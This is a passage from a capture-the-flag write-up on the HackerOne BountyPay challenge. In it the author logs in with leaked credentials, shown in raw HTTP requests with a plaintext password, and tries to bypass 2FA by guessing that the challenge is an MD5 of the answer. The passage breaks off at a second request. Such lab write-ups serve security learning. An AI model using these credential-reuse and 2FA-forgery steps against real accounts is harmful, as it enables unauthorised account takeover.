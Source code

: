 So...great, we have the credentials for a new user called **Brian Oliver**!

Let's try to use those credentials on the login form on https://app.bountypay.h1ctf.com as I found those in that domain.

{F853852}

Damn! We have also to insert a 2FA code.

Let's take a look at the related 2FA POST request:
```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Length: 100
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

username=brian.oliver&password=V7h0inzX&challenge=70fc6bcd3409b8acaec02992d31b4d03&challenge_answer=xxxxxxxx
```

So, I noticed that I need also a *challenge* and a *challenge_answer*.
The latter one could be found in one of the Base64 decoded string:
- `bD83Jk27dQ`

But how can I find the correct challenge?

First of all, I noticed that the *challenge* was likely to be an MD5 hash.
{F853860}

So I tried the most obious thing: "What if the *challenge* value (**5828c689761cce705a1c84d9b1a1ed5e**) is nothing more than the MD5 of the *challenge_answer* (**bD83Jk27dQ**)?"

```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Length: 100
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://app.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

```